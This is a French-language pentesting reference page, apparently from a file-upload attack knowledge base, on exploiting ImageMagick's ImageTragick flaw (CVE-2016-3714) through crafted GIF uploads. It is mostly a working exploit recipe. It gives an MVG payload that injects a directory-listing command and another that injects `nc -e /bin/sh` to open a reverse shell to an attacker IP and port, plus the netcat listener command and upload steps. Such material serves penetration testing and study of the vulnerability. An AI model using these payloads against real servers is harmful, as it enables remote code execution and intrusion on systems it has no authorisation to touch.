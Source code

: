 # GIF

**Facteur de risque** : RCE

**Extensions** : `.gif`

**Type MIME** : `image/gif`

**Description** : Le **Graphics Interchange Format** ou **GIF**, est un format d'image.

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="150">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire (**ls.gif**):
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**nc.gif**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- ImageTragick : 
  - https://imagetragick.com

## Todo

- [Remote Code Execution in the Avatars - Dodd Security](https://doddsecurity.com/94/remote-code-execution-in-the-avatars/)

- Beating getimagesize() : [Unrestricted File Upload | OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

- Upload .gif file to be resized - image library flaw exploited

- [GIF/Javascript Polyglots: Abusing GIFs, tags, and MIME types for evil - Web Hacking - 0x00sec - The Home of the Hacker](https://0x00sec.org/t/gif-javascript-polyglots-abusing-gifs-tags-and-mime-types-for-evil/5088)

- [ThinkFu &rsaquo; GIF/Javascript Polyglots](http://web.archive.org/web/20191216134147/http://www.thinkfu.com/blog/gifjavascript-polyglots)
